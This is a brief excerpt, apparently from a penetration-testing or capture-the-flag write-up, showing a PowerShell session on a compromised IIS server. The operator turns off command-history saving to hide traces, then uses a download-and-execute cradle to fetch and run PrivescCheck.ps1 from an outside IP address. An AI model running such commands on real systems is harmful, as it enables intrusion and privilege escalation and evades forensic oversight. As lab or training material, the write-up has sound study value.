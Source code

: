 ![](../../attachment/317b73bce72101fc61daa95d5dfec0f3.png)

```bash
PS C:\windows\system32\inetsrv> Set-PSReadLineOption -HistorySaveStyle SaveNothing
Error reading or writing history file 'Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt': Access to the path 'Microsoft\Windows\PowerShell\PSReadLine' is denied.
This error will not be reported again in this session. Consider using a different path with:
    Set-PSReadLineOption -HistorySavePath <Path>
Or not saving history with:
    Set-PSReadLineOption -HistorySaveStyle SaveNothing
um

PS C:\windows\system32\inetsrv> iex (new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1"); Invoke-PrivescCheck
```

The summarize looks clean
